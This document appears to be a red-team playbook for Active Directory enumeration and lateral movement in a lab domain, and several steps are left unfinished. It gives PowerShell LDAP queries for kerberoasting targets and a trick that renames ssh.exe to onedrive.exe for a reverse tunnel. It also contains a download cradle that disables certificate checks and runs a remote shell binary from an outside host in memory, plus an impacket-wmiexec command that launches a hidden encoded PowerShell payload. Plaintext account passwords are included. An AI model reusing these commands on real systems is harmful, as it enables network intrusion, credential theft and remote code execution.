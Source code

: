 # Advanced Enumeration

1. Remote from LIGHTEATER to the TWORIVERS.wheel.co machine using the wheel\macauthon | pw: Ch!ldr3nOfTheL1ght  acount.  This only works if you are in the security context of a domain user.  If you have system, you can also inject into a domain users process to assume that context, or impersonate.
   
2. Open powershell_ise.

3. `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`

$psISE.PowerShellTabs.Add()
$psISE.PowerShellTabs.SetSelectedPowerShellTab($psISE.PowerShellTabs[0])
$a = $psISE.PowerShellTabs[1].InvokeSynchronous("([adsisearcher]`'(&(objectCategory=user))`').findall()")
$a



1. Enumerate users and computers.
```
"([adsisearcher]'(&(objectCategory=user))').findall()|convertto-json"

([adsisearcher]'(&(objectCategory=Computer))').findall()|convertto-json
```

1. Previous enumeration reveals several domain users and computers with Service Principal Names (SPNs). To determine which accounts could be targeted for a kerberoasting attack, perform an LDAP query for all users assigned SPNs in order to generate a list of their SAM account names (this is needed later).  

```
[string[]]$sams=([adsisearcher]"(&(objectCategory=user)(serviceprincipalname=*))").findall()|%{$_.properties["samaccountname"]};$sams
```
---------------tested to here for enumeraiton-------------

<details><summary> OPTIONAL METHOD THAT IS MORE NOISY USING FULL SHELL</summary>

- 🎯 **Target:** it-user10

This will run through the merlin socks5 proxy, leveraging either schduled tasks or the regcmds in previous events.

1. First you want to enumerate, pull back the information to your device and document so you are situationally aware.
   
   ```ps1
    ([adsisearcher]"objectcategory=user").findall()
    ([adsisearcher]"objectcategory=computer").findall()
    ([adsisearcher]"serviceprincipalname=*").findall().properties.serviceprincipalname
    (([adsisearcher]"serviceprincipalname=*").findall(),properties)|fl*
   ```
   
2. Now with the domain user, collect accounts with SPNs.
 
    ```ps1
    $search = New-Object DirectoryServices.DirectorySearcher([ADSI]"") 
    $search.filter = "(&(servicePrincipalName=*)(objectCategory=user))" 
    $results = $search.Findall() 
    foreach ($results in $results) { $u = $results.GetDirectoryEntry(); $u.name; $u.samaccountname; foreach ($s in $u.servicePrincipalName) { $s; } Write-Host "---";}
    ```

## Proxy Based Domain Enumeration:

6to4 proxy: Creates A rule.

or SSH Reverse Proxy. 

In a console: 
1. copy c:\Windows\system32\openssh\ssh.exe C:\ProgramData\onedrive.exe
2. C:\ProgramData\onedrive.exe <tunnel commands>
3. 


2. Prepare to enumerate the IT domain using a subsequent shell, pull back the information to your device and document so you are situationally aware. To do this, prepare another download cradle for the `shell.exe` binary. In contrast to the previous cradle, this will be used to download and invoke the shell in memory. Use the following command to base64 encode the cradle. 

```powershell
'try{[net.servicepointmanager]::servercertificatevalidationcallback={$true};[reflection.assembly]::load([net.webclient]::new().downloaddata("https://captainamerica.org/java/<path here>")).entrypoint.invoke(0,((,$null)));}catch{};'
```


```shell 
> proxychains -q impacket-wmiexec -ts -debug -nooutput -silentcommand $DOMAIN/$USER:$PASSWORD@172.23.1.80 \
'c:\windows\system32\wbem\wmic.exe /node:172.23.3.110 /user:"it-nakatomi##.local\webadmin" /password:"Vr6F#x@9c2" /privileges:enable process call create "c:\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -ex b -w h -enc  <paste here>"'
```